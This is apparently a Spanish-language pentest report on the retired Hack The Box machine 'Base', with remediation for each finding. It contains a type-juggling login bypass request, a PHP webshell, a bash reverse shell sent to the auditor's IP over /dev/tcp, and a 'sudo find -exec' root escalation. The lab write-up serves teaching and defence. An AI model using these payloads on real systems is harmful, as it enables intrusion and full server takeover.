# Informe de Prueba de Penetración — Base

| | |
|---|---|
| **ID de informe** | HO-0011-00 |
| **Objetivo** | Base (`10.129.58.161`) |
| **Plataforma** | Hack The Box — máquina retirada |
| **Tipo de prueba** | Caja negra (black box) |
| **Fecha de ejecución** | 2026-10-21 |
| **Autor** | Francisco Nieto — [@NiettoFrann](https://github.com/NiettoFrann) |
| **Versión** | 1.0 |
| **Clasificación** | Público — uso educativo |

> **Aviso legal.** Las pruebas se realizaron sobre un entorno de laboratorio autorizado
> (Hack The Box) y sobre una máquina retirada. Ninguna técnica descrita debe aplicarse
> sobre sistemas sin autorización expresa por escrito de su propietario.

### Control de versiones

| Versión | Fecha | Descripción |
|---------|-------|-------------|
| 1.0 | 2026-10-21 | Versión inicial |

---

## Índice

1. [Resumen ejecutivo](#1-resumen-ejecutivo)
2. [Alcance y metodología](#2-alcance-y-metodología)
3. [Narrativa del ataque](#3-narrativa-del-ataque)
4. [Hallazgos técnicos](#4-hallazgos-técnicos)
5. [Post-explotación](#5-post-explotación)
6. [Conclusiones](#6-conclusiones)
7. [Anexos](#7-anexos)

---

## 1. Resumen ejecutivo

### 1.1 Objetivo

Evaluar la seguridad del host **Base** simulando un atacante externo sin credenciales ni
conocimiento previo del entorno, con el fin de obtener el máximo nivel de privilegios
posible.

### 1.2 Resultado

> El servidor alojaba un servicio web de almacenamiento de archivos. Un descuido en la
> configuración dejó visible el código fuente de la página de inicio de sesión, lo que
> reveló tanto la contraseña de administrador como un fallo en la forma de validar las
> credenciales. Aprovechando ese fallo se accedió al panel de administración sin conocer
> realmente la clave, se subió un archivo malicioso y se tomó el control del servidor.
> Desde allí, una contraseña reutilizada y un permiso mal otorgado permitieron llegar
> hasta la cuenta de máximo privilegio (`root`). Un atacante real habría podido robar,
> alterar o destruir toda la información alojada en el equipo.

**Nivel de riesgo global:** `CRÍTICO`

### 1.3 Distribución de hallazgos

| Crítica | Alta | Media | Baja | Informativa |
|:-------:|:----:|:-----:|:----:|:-----------:|
| 1 | 3 | 1 | 0 | 0 |

### 1.4 Resumen de hallazgos

| ID | Hallazgo | Severidad | CVSS |
|----|----------|-----------|------|
| [HO-0011-01](#ho-0011-01--divulgación-de-código-fuente-y-credenciales-por-listado-de-directorios-y-archivo-swap) | Divulgación de código fuente y credenciales (listado de directorios + `.swp`) | Alta | 7.5 |
| [HO-0011-02](#ho-0011-02--bypass-de-autenticación-por-type-juggling) | Bypass de autenticación por Type Juggling (comparación insegura) | Alta | 8.1 |
| [HO-0011-03](#ho-0011-03--carga-de-archivos-sin-restricción-con-ejecución-remota-de-código) | Carga de archivos sin restricción con ejecución remota de código | Crítica | 9.8 |
| [HO-0011-04](#ho-0011-04--reutilización-y-almacenamiento-en-claro-de-credenciales) | Reutilización y almacenamiento en claro de credenciales | Media | 5.4 |
| [HO-0011-05](#ho-0011-05--escalada-de-privilegios-por-sudo-sobre-usrbinfind) | Escalada de privilegios por `sudo` sobre `/usr/bin/find` | Alta | 7.8 |

### 1.5 Recomendaciones prioritarias

1. **Corregir la validación de credenciales** en `login.php`: comparar con operador
   estricto (`===`) o `hash_equals()`, validar que las entradas sean cadenas y almacenar
   la contraseña con un hash robusto (`password_hash` / `password_verify`). Esto cierra el
   acceso inicial.
2. **Restringir la carga de archivos**: lista blanca de extensiones y tipos MIME,
   almacenamiento fuera del *webroot* o en un directorio sin ejecución de PHP, y renombrado
   aleatorio. Esto impide la ejecución remota de código.
3. **Hardening general**: desactivar el listado de directorios en Apache, no publicar
   archivos temporales (`.swp`, `.bak`), no reutilizar contraseñas entre servicios y
   revisar `sudoers` para eliminar binarios peligrosos (`find`) de las reglas `NOPASSWD`.

---

## 2. Alcance y metodología

### 2.1 Alcance

| Activo | Dirección | Incluido |
|--------|-----------|:--------:|
| Base | `10.129.58.161` | Sí |

**Fuera de alcance:** ataques de denegación de servicio, infraestructura de la plataforma
y otros jugadores.

### 2.2 Metodología

La prueba siguió las fases del estándar **PTES** (Penetration Testing Execution Standard),
apoyándose en **OWASP WSTG** para los componentes web:

1. **Reconocimiento** — descubrimiento de puertos y servicios.
2. **Enumeración** — identificación de versiones, tecnologías y superficie de ataque.
3. **Análisis de vulnerabilidades** — validación manual de posibles fallos.
4. **Explotación** — obtención de acceso inicial.
5. **Post-explotación** — escalada de privilegios y movimiento lateral.
6. **Reporte** — documentación de hallazgos y recomendaciones.

### 2.3 Entorno del auditor

| Componente | Detalle |
|------------|---------|
| Sistema | Linux (equipo del auditor) |
| Conexión | VPN de Hack The Box — IP de ataque `10.10.14.175` |
| Herramientas | nmap, gobuster, Burp Suite, Firefox, netcat |

### 2.4 Clasificación de severidad

Las vulnerabilidades se puntúan con **CVSS v3.1**.

| Severidad | Puntaje | Criterio |
|-----------|:-------:|----------|
| Crítica | 9.0–10.0 | Compromiso total, remoto y sin autenticación. |
| Alta | 7.0–8.9 | Compromiso significativo o escalada de privilegios. |
| Media | 4.0–6.9 | Impacto limitado o con condiciones previas. |
| Baja | 0.1–3.9 | Impacto mínimo. |
| Informativa | 0.0 | Buena práctica, sin impacto directo. |

---

## 3. Narrativa del ataque

### 3.1 Cadena de compromiso



### 3.2 Reconocimiento

Validación de conectividad: el `TTL ≈ 63` es coherente con un host **Linux** (valor base
64 menos un salto de red).

```bash
ping -c 1 10.129.58.161
# 64 bytes from 10.129.58.161: icmp_seq=1 ttl=63 time=232 ms
```

Descubrimiento de puertos abiertos y detección de servicios:

```bash
nmap -p- --min-rate=5000 -T4 -Pn -n -oN loot/puertos.txt 10.129.58.161
nmap -p22,80 -sVC -Pn -n -T4 -oN loot/detallado.txt 10.129.58.161
```

| Puerto | Servicio | Versión | Observaciones |
|--------|----------|---------|---------------|
| 22/tcp | SSH | OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 | Sin credenciales; se descarta como vector inicial. |
| 80/tcp | HTTP | Apache httpd 2.4.29 (Ubuntu) | Aplicación web «Welcome to Base»; principal superficie de ataque. |

> El escaneo completo también reportó varios puertos altos en estado `filtered` (7515,
> 15822, 16316, 37233, 37859, 40719, 61510), sin servicio asociado; se consideran ruido y
> no se investigaron. Salida completa en el [Anexo A](#a-salida-completa-de-escaneos).

### 3.3 Enumeración

El sitio en el puerto 80 es un servicio de alojamiento de archivos con un formulario de
inicio de sesión en `/login/login.php`.

<p align="center">
  
</p>
<p align="center"><em>Figura 1 — Portada del servicio web en el puerto 80, punto de partida de la enumeración.</em></p>

La enumeración de directorios con `gobuster` reveló cuatro rutas, entre ellas `/login/` y
`/_uploaded/`:

```bash
gobuster dir -u http://10.129.58.161 \
  -w /usr/share/seclists/Discovery/Web-Content/big.txt \
  --add-slash -t 100 -b 403,404
# _uploaded/   (Status: 200)
# assets/      (Status: 200)
# forms/       (Status: 200)
# login/       (Status: 200)
```

El directorio `/login/` tenía el **listado de directorios habilitado**, exponiendo no solo
`login.php` y `config.php`, sino también un archivo de intercambio de Vim
(`login.php.swp`) olvidado en el servidor. Este descuido fue la puerta de entrada de toda
la cadena (ver **[HO-0011-01](#ho-0011-01--divulgación-de-código-fuente-y-credenciales-por-listado-de-directorios-y-archivo-swap)**).

<p align="center">
  
</p>

<p align="center"><em>Figura 2 — Listado de <code>/login/</code>: el archivo <code>login.php.swp</code> no debería ser accesible.</em></p>

### 3.4 Acceso inicial

Al recuperar el código fuente desde el `.swp` se descubrió que la autenticación comparaba
las credenciales con `strcmp(...) == 0`, un patrón vulnerable a **Type Juggling**. Enviando
los parámetros como arrays (`username[]` / `password[]`) se forzó a `strcmp()` a devolver
`NULL`, que en comparación laxa equivale a `0`, evadiendo el control. Detalle en
**[HO-0011-02](#ho-0011-02--bypass-de-autenticación-por-type-juggling)**.

Ya dentro del panel «Admin File Uploads», se subió un fichero PHP que permitió ejecutar
comandos y obtener una *reverse shell* como `www-data`. Detalle en
**[HO-0011-03](#ho-0011-03--carga-de-archivos-sin-restricción-con-ejecución-remota-de-código)**.

### 3.5 Movimiento lateral

Con la shell de `www-data` se leyó `config.php`, que almacenaba en texto plano la
contraseña `thisisa*************`. Esa misma contraseña estaba **reutilizada** por el
usuario del sistema `john`, lo que permitió autenticarse por SSH como dicho usuario y
obtener la flag `user.txt`. Detalle en
**[HO-0011-04](#ho-0011-04--reutilización-y-almacenamiento-en-claro-de-credenciales)**.

### 3.6 Escalada de privilegios

El usuario `john` podía ejecutar `/usr/bin/find` como `root` mediante `sudo`. Abusando de
la opción `-exec` de `find` se obtuvo una shell con privilegios de superusuario. Detalle en
**[HO-0011-05](#ho-0011-05--escalada-de-privilegios-por-sudo-sobre-usrbinfind)**.

---

## 4. Hallazgos técnicos

### HO-0011-01 — Divulgación de código fuente y credenciales por listado de directorios y archivo swap

| | |
|---|---|
| **Severidad** | Alta |
| **CVSS v3.1** | 7.5 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` |
| **CWE** | [CWE-540](https://cwe.mitre.org/data/definitions/540.html) — Inclusion of Sensitive Information in Source Code |
| **CVE** | — |
| **Componente afectado** | `http://10.129.58.161/login/` — `login.php.swp`, `config.php` |
| **Estado** | Explotada |

#### Descripción

El servidor Apache tenía habilitado el **listado automático de directorios** sobre
`/login/` y, además, conservaba un **archivo de intercambio de Vim** (`login.php.swp`)
generado al editar `login.php`. Este archivo temporal contenía el código fuente íntegro de
la lógica de autenticación. La causa raíz es doble: una configuración insegura del
servidor (directory listing) y un proceso de despliegue que dejó artefactos de edición en
producción.

#### Prueba de concepto

**Paso 1.** Al navegar a `/login/` se obtiene el índice del directorio, que lista
`config.php`, `login.php` y `login.php.swp` (ver Figura 2).

**Paso 2.** Se descarga y recupera el contenido del archivo swap:

```bash
wget http://10.129.58.161/login/login.php.swp
strings login.php.swp
```

**Paso 3.** El código revelado muestra la lógica de validación vulnerable:

```php
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```

**Paso 4.** El archivo `config.php` (también accesible) almacena las credenciales en claro:

```php
<?php
$username = "admin";
$password = "thisisa*************";
```

#### Impacto

Exposición directa del código fuente y de las credenciales de administración, lo que
facilita el descubrimiento de la vulnerabilidad de autenticación (HO-0011-02) y acelera el
compromiso del sistema. Afecta a la **confidencialidad** de la aplicación.

#### Remediación

- **Corto plazo:** eliminar los archivos `.swp`/`.bak` del *webroot* y desactivar el
  listado de directorios (`Options -Indexes`).
- **Largo plazo:** incorporar al proceso de despliegue una limpieza de artefactos
  temporales y evitar almacenar secretos en el código fuente (usar variables de entorno o
  un gestor de secretos).

#### Referencias

- [OWASP WSTG — Review Webserver Metafiles / Old Backup and Unreferenced Files](https://owasp.org/www-project-web-security-testing-guide/)
- [CWE-540 — Inclusion of Sensitive Information in Source Code](https://cwe.mitre.org/data/definitions/540.html)

---

### HO-0011-02 — Bypass de autenticación por Type Juggling

| | |
|---|---|
| **Severidad** | Alta |
| **CVSS v3.1** | 8.1 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:N` |
| **CWE** | [CWE-697](https://cwe.mitre.org/data/definitions/697.html) — Incorrect Comparison |
| **CVE** | — |
| **Componente afectado** | `http://10.129.58.161/login/login.php` — parámetros `username`, `password` |
| **Estado** | Explotada |

#### Descripción

La validación de credenciales compara las entradas con `strcmp($almacenado, $_POST[...]) == 0`
usando el operador de **comparación laxa** (`==`). En PHP 7, invocar `strcmp()` con un array
como argumento genera un *warning* y devuelve `NULL`; y `NULL == 0` se evalúa como
**verdadero**. Como consecuencia, enviar los parámetros como arrays satisface ambas
condiciones sin conocer la contraseña real. La causa raíz es el uso de comparación no
estricta combinada con la falta de validación del tipo de los datos recibidos.

#### Prueba de concepto

**Paso 1.** Se intercepta la petición de login con Burp Suite y se transforman los
parámetros en arrays añadiendo `[]` a sus nombres:

```http
POST /login/login.php HTTP/1.1
Host: 10.129.58.161
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username[]=admin&password[]=pass
```

<p align="center">
  
</p>

<p align="center"><em>Figura 3 — Type Juggling: los parámetros enviados como arrays fuerzan <code>strcmp() → NULL</code>.</em></p>

**Paso 2.** El servidor acepta el inicio de sesión (`$_SESSION['user_id'] = 1`) y redirige
a `/upload.php`, el panel «Admin File Uploads».

<p align="center">
  
</p>

<p align="center"><em>Figura 4 — Acceso al panel de administración de subidas sin credenciales válidas.</em></p>

#### Impacto

Un atacante no autenticado obtiene una sesión de administrador y accede a funcionalidad
protegida (la subida de archivos), sin necesidad de conocer la contraseña. Compromete la
**confidencialidad** y, parcialmente, la **integridad** de la aplicación, y habilita la
ejecución remota de código descrita en HO-0011-03.

#### Remediación

- **Corto plazo:** sustituir la comparación por el operador estricto (`===`) o por
  `hash_equals()`, y validar que `username`/`password` sean cadenas (`is_string()`) antes
  de procesarlas.
- **Largo plazo:** no comparar contraseñas en claro; almacenar un hash con
  `password_hash()` y validar con `password_verify()`.

#### Referencias

- [OWASP — PHP Type Juggling / Loose Comparison](https://owasp.org/www-community/vulnerabilities/)
- [CWE-697 — Incorrect Comparison](https://cwe.mitre.org/data/definitions/697.html)
- [PHP Manual — strcmp()](https://www.php.net/manual/en/function.strcmp.php)

---

### HO-0011-03 — Carga de archivos sin restricción con ejecución remota de código

| | |
|---|---|
| **Severidad** | Crítica |
| **CVSS v3.1** | 9.8 — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | [CWE-434](https://cwe.mitre.org/data/definitions/434.html) — Unrestricted Upload of File with Dangerous Type |
| **CVE** | — |
| **Componente afectado** | `http://10.129.58.161/upload.php` → `http://10.129.58.161/_uploaded/` |
| **Estado** | Explotada |

> **Justificación del vector (`PR:N`).** Aunque la subida requiere una sesión de
> administrador, esta se obtiene de forma trivial y sin credenciales mediante HO-0011-02,
> por lo que el conjunto se evalúa como accesible de forma no autenticada.

#### Descripción

El panel de subida no valida la extensión ni el tipo de contenido de los archivos, y los
almacena en un directorio accesible y ejecutable por el servidor web (`/_uploaded/`). Esto
permite subir un script PHP y ejecutarlo, obteniendo ejecución remota de comandos. La causa
raíz es la ausencia de validación de tipo de archivo y el almacenamiento dentro del
*webroot* con permisos de ejecución.

#### Prueba de concepto

**Paso 1.** Se sube un webshell mínimo a través del panel:

```php
<?php
  system($_GET['cmd']);
?>
```

**Paso 2.** El archivo queda accesible en `/_uploaded/shell.php`:

<p align="center">
  
</p>
<p align="center"><em>Figura 5 — El webshell queda disponible en <code>/_uploaded/shell.php</code>.</em></p>

**Paso 3.** Se prepara un *listener* y se invoca una *reverse shell* a través del parámetro
`cmd`:

```bash
# En el equipo del auditor
nc -lvnp 443
```

```http
GET /_uploaded/shell.php?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.175/443 0>&1" HTTP/1.1
Host: 10.129.58.161
```

<p align="center">
  
</p>
<p align="center"><em>Figura 6 — Invocación de la reverse shell (payload decodificado en el panel de Burp).</em></p>

**Paso 4.** Se obtiene una shell interactiva como `www-data`:

```bash
www-data@base:/var/www/html/_uploaded$ whoami
www-data
```

<p align="center">
  
</p>
<p align="center"><em>Figura 7 — Ejecución remota de código confirmada: shell como <code>www-data</code>.</em></p>

#### Impacto

Ejecución remota de comandos en el servidor con los privilegios del servicio web. Compromete
por completo la **confidencialidad, integridad y disponibilidad** del host: lectura y
modificación de datos, persistencia y pivoteo hacia otras cuentas.

#### Remediación

- **Corto plazo:** validar extensión y tipo MIME con lista blanca, rechazar archivos
  ejecutables (`.php`, `.phtml`, etc.) y renombrar los archivos subidos.
- **Largo plazo:** almacenar las subidas fuera del *webroot* o en un directorio sin
  ejecución de código (`php_admin_flag engine off` / `Options -ExecCGI`), y servirlas a
  través de un manejador que fuerce la descarga.

#### Referencias

- [OWASP WSTG — Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/)
- [CWE-434 — Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

---

### HO-0011-04 — Reutilización y almacenamiento en claro de credenciales

| | |
|---|---|
| **Severidad** | Media |
| **CVSS v3.1** | 5.4 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` |
| **CWE** | [CWE-522](https://cwe.mitre.org/data/definitions/522.html) — Insufficiently Protected Credentials |
| **CVE** | — |
| **Componente afectado** | `/var/www/html/login/config.php` — usuario del sistema `john` |
| **Estado** | Explotada |

#### Descripción

La aplicación almacena la contraseña de administración en texto plano en `config.php`, y esa
misma contraseña está **reutilizada** como credencial del usuario del sistema `john`. La
causa raíz es la gestión deficiente de secretos (almacenamiento en claro) sumada a la
reutilización de contraseñas entre la aplicación y las cuentas del sistema operativo.

#### Prueba de concepto

**Paso 1.** Desde la shell de `www-data` se lee el archivo de configuración y se identifica
al usuario `john`:

```bash
www-data@base:/var/www/html$ cat login/config.php
# $username = "admin";
# $password = "thisisa*************";
www-data@base:/var/www/html$ ls -la /home/
# drwxr-xr-x  5 john john 4096 Jul 26  2021 john
```

<p align="center">
  
</p>
<p align="center"><em>Figura 8 — Credenciales en texto plano en <code>config.php</code> y existencia del usuario <code>john</code>.</em></p>

**Paso 2.** La contraseña se reutiliza con éxito para autenticarse por SSH como `john`:

```bash
ssh john@10.129.58.161
# Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-151-generic x86_64)
# john@base:~$
```

<p align="center">
  
</p>
<p align="center"><em>Figura 9 — Autenticación SSH como <code>john</code> con la contraseña extraída de <code>config.php</code>.</em></p>

**Paso 3.** Se obtiene la flag de usuario:

```bash
john@base:~$ cat /home/john/user.txt
# f54846c2************************
```

<p align="center">
  
</p>
<p align="center"><em>Figura 10 — Flag de usuario obtenida (<code>user.txt</code>).</em></p>

#### Impacto

Movimiento lateral de la cuenta de servicio (`www-data`) a un usuario del sistema (`john`)
con acceso SSH, ampliando el control sobre el host y sentando la base para la escalada a
`root`.

#### Remediación

- **Corto plazo:** rotar la contraseña comprometida y eliminar su almacenamiento en claro.
- **Largo plazo:** usar contraseñas únicas por servicio, gestionar secretos fuera del código
  y, cuando sea posible, autenticación por clave en SSH.

#### Referencias

- [CWE-522 — Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- [CWE-521 — Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)

---

### HO-0011-05 — Escalada de privilegios por `sudo` sobre `/usr/bin/find`

| | |
|---|---|
| **Severidad** | Alta |
| **CVSS v3.1** | 7.8 — `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **CWE** | [CWE-250](https://cwe.mitre.org/data/definitions/250.html) — Execution with Unnecessary Privileges |
| **CVE** | — |
| **Componente afectado** | Configuración de `sudoers` para el usuario `john` |
| **Estado** | Explotada |

#### Descripción

El usuario `john` está autorizado a ejecutar `/usr/bin/find` como `root` mediante `sudo`.
`find` dispone de la opción `-exec`, que permite lanzar binarios arbitrarios; al ejecutarlo
con privilegios de `root` se obtiene una shell con esos privilegios. La causa raíz es la
violación del principio de mínimo privilegio al conceder `sudo` sobre un binario con
capacidad de ejecución de comandos (técnica documentada en GTFOBins).

#### Prueba de concepto

**Paso 1.** Se enumeran los permisos `sudo` del usuario:

```bash
john@base:~$ sudo -l
# User john may run the following commands on base:
#     (root : root) /usr/bin/find
```

**Paso 2.** Se abusa de `-exec` para obtener una shell de `root`:

```bash
john@base:~$ sudo find . -exec /bin/bash \; -quit
root@base:~# id
# uid=0(root) gid=0(root) groups=0(root)
```

<p align="center">
  
</p>
<p align="center"><em>Figura 11 — Escalada de privilegios: <code>sudo find ... -exec /bin/bash</code> devuelve una shell de <code>root</code>.</em></p>

**Paso 3.** Se obtiene la flag de `root`:

```bash
root@base:~# cat /root/root.txt
# 51709519************************
```

<p align="center">
  
</p>
<p align="center"><em>Figura 12 — Flag de administrador obtenida (<code>root.txt</code>).</em></p>

#### Impacto

Compromiso total del host: control completo del sistema operativo con privilegios de
superusuario, con impacto sobre **confidencialidad, integridad y disponibilidad**.

#### Remediación

- **Corto plazo:** retirar `/usr/bin/find` de las reglas `sudo` de `john`.
- **Largo plazo:** aplicar el principio de mínimo privilegio; si se requiere delegar tareas,
  usar scripts acotados y auditables en lugar de binarios con capacidad de ejecución
  arbitraria.

#### Referencias

- [GTFOBins — find](https://gtfobins.github.io/gtfobins/find/)
- [CWE-250 — Execution with Unnecessary Privileges](https://cwe.mitre.org/data/definitions/250.html)

---

## 5. Post-explotación

### 5.1 Acceso obtenido

| Nivel | Usuario | Método | Prueba |
|-------|---------|--------|--------|
| Servicio | `www-data` | HO-0011-02 + HO-0011-03 | Shell remota (RCE) |
| Usuario | `john` | HO-0011-04 | `user.txt` — `f54846c2************************` |
| Administrador | `root` | HO-0011-05 | `root.txt` — `51709519************************` |

> Las flags se muestran parcialmente censuradas.

### 5.2 Información sensible expuesta

| Tipo | Ubicación | Observación |
|------|-----------|-------------|
| Código fuente | `http://10.129.58.161/login/login.php.swp` | Archivo swap de Vim accesible públicamente. |
